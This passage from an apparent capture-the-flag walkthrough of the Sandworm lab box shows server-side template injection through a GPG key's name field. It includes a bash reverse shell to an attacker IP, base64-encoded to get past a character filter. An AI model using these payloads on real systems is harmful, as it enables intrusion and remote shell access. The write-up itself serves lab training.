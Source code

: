 4.  Enter the public key and signed message into the site and submit.

The result is code execution, as the result of the `id`command is
clearly there in the returned text:

![](/img/image-20231114130333970.png)

### Shell

To get a shell on Sandworm I'll try to create a SSTI payload that
connects back with a reverse shell. I learned earlier that `gpg` won't
let me have `<` or `>` in my name. Trying here fails:



    Real name: {{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() }}
    Invalid character in name
    The characters '<' and '>' may not appear in name
    Real name:



I'll encode the reverse shell in base64 (the first result would probably
work, but I like to add spaces to get rid of characters like `+` and `=`
and it doesn't change the command):



    oxdf@hacky$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==
    oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
    YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMQo=
    oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1 ' | base64
    YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK



I can test this on my own system by starting `nc -lvnp 443` in one
window, and then running:



    echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash



It connects with a shell, which shows it works. I'll add that to the
SSTI payload:



    {{ namespace.__init__.__globals__.os.popen('echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash').read() }}



Now I repeat the steps from above:


    oxdf@hacky$ gpg --gen-key 
    ...[snip]...
    Real name: {{ namespace.__init__.__globals__.os.popen('echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash').read() }}
    Email address: rce-rev@ssa.htb
    You selected this USER-ID:
        "{{ namespace.__init__.__globals__.os.popen('echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash').read() }} <rce-rev@ssa.htb>"
    ...[snip]...
    oxdf@hacky$ gpg --clearsign -o- --local-user rce-rev@ssa.htb test.msg
    -----BEGIN PGP SIGNED MESSAGE-----
    Hash: SHA512
